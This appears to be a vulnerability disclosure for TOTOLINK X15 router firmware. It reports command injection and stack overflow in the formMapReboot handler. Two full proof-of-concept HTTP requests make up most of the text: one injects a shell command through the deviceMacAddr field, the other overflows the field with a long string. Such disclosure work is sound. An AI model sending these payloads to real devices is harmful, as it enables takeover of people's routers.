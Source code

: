 #### Affected version

V1.0.0-B20230714.1105

#### Vulnerability details

There are stack overflow and command injection vulnerabilities in the formMapReboot function. There is no good control length by setting deviceMacAdd. There is a stack overflow when strcpy is copied, and the return address can be overwritten. When v5 is copied to the v4 variable, there is no command filtering, and command execution can be achieved, so that command execution can be achieved.

![image-20250523202635487](TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523202635487.png)

#### POC1-(code-injection)

~~~http
POST /boafrm/formMapReboot HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Referer: http://192.168.0.1/tcpipwan.htm
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 983

sessionCheck=91c636aec77c15df3117a988288bd371&deviceMacAddr=127.0.0.1; touch /1.txt &
~~~

##### result

![image-20250523202943693](TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523202943693.png)

#### POC2-(stack_overflow)

~~~http
POST /boafrm/formMapReboot HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Referer: http://192.168.0.1/tcpipwan.htm
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 983

sessionCheck=91c636aec77c15df3117a988288bd371&deviceMacAddr=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
~~~

##### result

![image-20250523203451493](TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523203451493.png)

